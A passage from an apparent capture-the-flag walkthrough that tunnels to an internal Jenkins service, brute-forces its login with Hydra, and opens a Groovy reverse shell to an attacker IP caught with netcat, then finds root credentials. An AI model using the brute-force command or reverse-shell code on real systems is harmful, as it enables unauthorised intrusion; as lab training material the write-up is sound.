 5. ``uname -a`` gives us kernal information: ``Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux``
6. lets wget and ./linpeas.sh on the machine to see what we missed...

```shell
Exploit: Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Local Privilege Escalation (polkit Method)
      URL: https://www.exploit-db.com/exploits/47167
     Path: /usr/share/exploitdb/exploits/linux/local/47167.sh
File Type: POSIX shell script, ASCII text executable
```

7. Can't seem to get that exploit to work - so going back to the "Internal Jenkins service is running on 172.17.0.2:8080". Some googling says that this is an internal Docker Service. INTERNAL! The name of the client this must be our way to root?
8. Because this is an internal IP we need to create an SSH tunnel a to access it from our remote machine. 
- ``ssh aubreanna@10.10.238.97 -N -f -L 2222:172.17.0.2:8080`` -N create non interactive -f request ssh to go to the background -L for local port forward
9. With the SSH tunnel setup we can access the Internal Jenkins at http://localhost:2222
10. build hydra to brute force?
11. ``hydra -t 16 -l admin -P /usr/share/seclists/Passwords/rockyou.txt localhost -s 2222 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password"  ``
12. admin:spongebob
13. traveling to the script console we can abuse this to run commands on the internal jenkins system and get a reverse shell. 

```shell
String host="10.x.x.x";

int port=6666;

String cmd=”bash”;

Process p=new 
ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

14. ``nc -nvlp 6666`` on our kali machine and run the script in the console to get out shell.
15. checking around this machine and checking out /opt/ we can see a note for aubreanna with root ssh credentials. root:tr0ub13guM!@#123

##   Answer the questions below

**User.txt Flag**
